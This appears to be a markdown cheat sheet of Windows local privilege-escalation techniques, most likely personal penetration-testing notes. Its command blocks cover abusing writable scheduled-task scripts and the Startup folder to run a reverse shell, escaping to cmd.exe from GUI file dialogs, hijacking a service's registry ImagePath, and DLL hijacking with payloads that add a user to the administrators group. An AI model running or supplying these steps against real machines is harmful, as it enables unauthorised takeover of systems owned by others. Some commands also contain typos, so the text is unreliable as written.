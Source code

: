 ## Scheduled Tasks with Sysinternals
```powershell
\accesschk.exe /accepteula -quvw user C:\ScheduleTask.ps1 # systernals - if running it can be run somehow as SYSTEM
# If writable:
echo reverseShell.exe >> C:\ScheduleTask.ps1 # append .exe
```

# Insecure GUI Apps
```
tasklist /V # GUI apps that can be run as Admin 
# In file dialogue box 
file://c:/windows/system32/cmd.exe
```

## Startup Applications 
```
# BEWARE YOU NEED TO RESTART/LOGOFF! Requires trigger!
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp" # sysinternals
# Create a shortcut to your reverse shell in StartUp directory.
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# place reverse shell in C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

## Service Escalation Registry
```powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
Copy ‘C:\service.c # Edit file, either on box or on attack box, depending on local compiler and noise:
# replace or add a system() function call to:
"cmd.exe /k net localgroup adminstrators [username] /add"
# x86_64-w64-mingw32-gcc windows_service.c -o x.exe
# Copy back to /Temp
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f # Edit path
sc start regsvc
netlocalgroup administrators # check success
```

## DLL hijacking!
```
# Find a dll to exploit
# Get the windows_dll.c
# Edit, replacing the system() call to:
cmd.exe /k net localgroup administrators user /add
#compile
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
# place the dll
sc stop dllsvc 
sc start dllsvc # Or start a service that use it.
```
